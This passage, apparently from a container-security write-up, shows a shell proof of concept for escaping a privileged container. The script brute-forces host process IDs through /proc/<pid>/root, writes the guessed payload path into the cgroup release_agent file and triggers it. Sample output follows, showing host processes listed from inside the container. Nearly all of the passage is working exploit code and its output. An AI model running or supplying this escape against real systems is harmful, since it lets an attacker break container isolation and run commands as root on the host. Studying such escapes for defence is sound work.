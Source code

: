 ```
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

Executing the PoC within a privileged container should provide output similar to:

```
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```
